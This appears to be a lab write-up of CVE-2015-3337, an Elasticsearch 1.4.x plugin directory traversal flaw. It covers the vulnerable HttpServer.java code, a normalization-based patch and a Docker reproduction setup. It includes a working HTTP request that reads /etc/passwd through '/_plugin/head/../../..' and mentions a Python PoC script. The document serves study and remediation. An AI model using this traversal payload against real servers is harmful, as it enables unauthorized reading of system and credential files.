






# CVE-2015-3337 CWE-22 ElasticSearch directory traversal

## Vulnerability Background
- **ElasticSearch :** An open-source distributed RESTful search and analysis engine, scalable data storage, and vector database capable of addressing a wide range of emerging use cases. It can store large amounts of data and supports real-time search, multi-tenant, distributed indexing, and storage. Uses document-oriented storage, with data stored in JSON format and flexible fields. It performs excellently in full-text retrieval, quickly handling complex search requests, and is commonly used in scenarios such as log analysis and website searches. It can also facilitate cluster expansion by adding nodes, though it is slightly weaker than traditional databases in terms of transaction processing integrity and data update consistency.
- **ElasticSearch Plugin:** Offers the ability to extend and customize its features, allowing users to enhance their capabilities according to specific needs. These plugins can add new analytics tools, support additional data processing capabilities, provide monitoring and management interfaces (such as elasticsearch-head), and integrate other services. They are easy to install and manage, allowing Elasticsearch to flexibly adapt to various application scenarios such as log analysis, real-time search, and data analysis. Users can select suitable plugins as needed to optimize and expand the functionality of their Elasticsearch cluster.
- **elasticsearch-head plugin:** A web-based interface tool that makes it easy to manage and monitor Elasticsearch clusters. Through this plugin, users can intuitively view cluster status, node information, index lists, and document content in their browser. Additionally, it supports performing search queries, managing index lifecycles, and performing basic maintenance operations on clusters.
- **CWE-22 (Path Traversal):** is a security vulnerability that allows attackers to access or manipulate files or directories outside restricted directories by manipulating file paths. This vulnerability usually occurs when a web application or system fails to correctly validate the file path entered by the user. For example, attackers can exploit ". /", which navigate to parent directories or other unauthorized areas to read sensitive files, modify or delete data, and even perform malicious operations.

## Vulnerability Mechanism
Because ElasticSearch does not normalize paths or perform security verification during static resource access, when site plugins are enabled, remote attackers can exploit this vulnerability to read arbitrary files through unknown vectors, allowing attackers to construct directory traversal paths and read any file from the system.

## Vulnerability Location
Analyzing the ElasticSearch 1.4.4 source code

In src \main \java \org \elasticsearch \http \HttpServer .java files, the HttpServer class handles Elasticsearch HTTP requests. In line 133, the handlePluginSite method handles HTTP requests related to plugins, especially those starting with `/_plugin/`. It is responsible for verifying the legitimacy of requests and providing static file services for plugins.

Line 177 checks whether the requested file exists and is not hidden, but here it does not **check whether the `file` is still under the `siteFile` (plugin `_site` root directory)**.

On line 194, **only string matching** is used to determine if the file path is in the plugin directory, **not based on the real path object**, making it easy to bypass by soft links, symbolic paths, and similar techniques.

Since there is no restriction on path traversal, this can cause arbitrary file readings. If `sitePath` is `../../../../../etc/passwd`, the concatenated file becomes a path pointing to system-sensitive files.

```java
void handlePluginSite(HttpRequest request, HttpChannel channel) {
        // ...
        String path = request.rawPath().substring("/_plugin/".length());
        int i1 = path.indexOf('/');
        String pluginName;
        String sitePath;
        if (i1 == -1) {
            pluginName = path;
            sitePath = null;
            // If a trailing / is missing, we redirect to the right page #2654
            String redirectUrl = request.rawPath() + "/";
            BytesRestResponse restResponse = new BytesRestResponse(RestStatus.MOVED_PERMANENTLY, "text/html", "<head><meta http-equiv=\"refresh\" content=\"0; URL=" + redirectUrl + "></head>");
            restResponse.addHeader("Location", redirectUrl);
            channel.sendResponse(restResponse);
            return;
        } else {
            pluginName = path.substring(0, i1);
            sitePath = path.substring(i1 + 1);
        }
        if (sitePath.length() == 0) {
            sitePath = "/index.html";
        }
        // Convert file separators.
        sitePath = sitePath.replace('/', File.separatorChar);
        // this is a plugin provided site, serve it as static files from the plugin location
// ** 175 lines *********************************************************************
        File siteFile = new File(new File(environment.pluginsFile(), pluginName), "_site");    
        File file = new File(siteFile, sitePath);
// ** 177 lines *********** Check whether the requested file exists and is not hidden****************************
        if (!file.exists() || file.isHidden()) {
            channel.sendResponse(new BytesRestResponse(NOT_FOUND));
            return;
        }
        if (!file.isFile()) {
            // If it's not a dir, we send a 403
            if (!file.isDirectory()) {
                channel.sendResponse(new BytesRestResponse(FORBIDDEN));
                return;
            }
            // We don't serve dir but if index.html exists in dir we should serve it
            file = new File(file, "index.html");
            if (!file.exists() || file.isHidden() || !file.isFile()) {
                channel.sendResponse(new BytesRestResponse(FORBIDDEN));
                return;
            }
        }
// ** 194 lines ********* Use string matching to determine if the file path is in the plugin directory************************
        if (!file.getAbsolutePath().startsWith(siteFile.getAbsolutePath())) {
            channel.sendResponse(new BytesRestResponse(FORBIDDEN));
            return;
        }
        try {
            byte[] data = Streams.copyToByteArray(file);
            channel.sendResponse(new BytesRestResponse(OK, guessMimeType(sitePath), data));
        } catch (IOException e) {
            channel.sendResponse(new BytesRestResponse(INTERNAL_SERVER_ERROR));
        }
    }
```

## Remediation
At line 177, add the logic !file.getAbsoluteFile().toPath().normalize().startsWith(siteFile.getAbsoluteFile().toPath()). If the target file is outside the `_site` directory (via jump symbols or symbol links, etc.), access is directly denied. Delete the old test logic of Article 194.

file.getAbsoluteFile().toPath().normalize() is used to convert paths to absolute paths and perform normalization, allowing removal of: / and other jumping symbols. startsWith(siteFile.getAbsoluteFile().toPath()) checks whether the target path is actually in the plugin _site directory, preventing exiting the directory (path traversal attack).

```java
File file = new File(siteFile, sitePath);
if (!file.exists() || file.isHidden() || !file.getAbsoluteFile().toPath().normalize().startsWith(siteFile.getAbsoluteFile().toPath())) {
    channel.sendResponse(new BytesRestResponse(NOT_FOUND));
    return;
}
```

The old logic was "string-based path judgment," which was easily bypassed; The new logic is "normalized judgment based on real file paths," making it more secure.

## Affected Versions
Affected versions: Elasticsearch 1.4.x ≤ 1.4.4 and 1.5.x ≤ 1.5.1

Affected components: Elasticsearch plugin service (_plugin, such as test, kopf, HQ, marvel, bigdesk, head)

## Environment Setup
1. Start the Docker environment; ElasticSearch version is 1.4.4

   

2. In the Docker environment, a document with index init_index, type user, document ID 1 has been created, and the field name is set to init_user. Use the following command to view the information in the document.

   ```bash
   curl -XGET 'http://127.0.0.1:9200/init_index/user/1?pretty'
   ```

   

3. The Docker environment has the `elasticsearch-head` plugin installed by default: https://github.com/mobz/elasticsearch-head. Visit http://127.0.0.1:9200/_cat/plugins to view all installed plugins.

   

4. Open the Elasticsearch Head web interface at http://127.0.0.1:9200/_plugin/head/. The plugin provides a browser-based frontend for Elasticsearch.

   

## Vulnerability Reproduction
**Cannot be accessed directly in your browser. **Use BurpSuit to send payload packets and attempt to traverse the directory range /etc/passwd file.

```http
GET /_plugin/head/../../../../../../../../../etc/passwd HTTP/1.1
Host: 127.0.0.1:9200
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
```

The returned response packet shows the contents of the /etc/passwd file.



## PoC Analysis
Execution process: User inputs → iterates through plugins → detects plugin existence → uses directory traversal to read files → outputs results

Enter the target IP and port, as well as the path to the target file you want to access, and the target file will be successfully printed

```bash
python CVE-2015-3337-PoC.py
```



## References
[NVD - CVE-2015-3337](https://nvd.nist.gov/vuln/detail/CVE-2015-3337)

[Vulnerability Reproduction ---- 9. Elasticsearch Plugin Directory Traversal Vulnerability (CVE-2015-3337) _elasticsearch Directory Traversal (CVE-2015-3337) - CSDN Blog](https://blog.csdn.net/sycamorelg/article/details/117740853)

[HTTP: Ensure url path expansion only works inside of plugins · elastic/elasticsearch@55b890f](https://github.com/elastic/elasticsearch/commit/55b890f9bb83470094b07f36bdf922e28d2596b5)
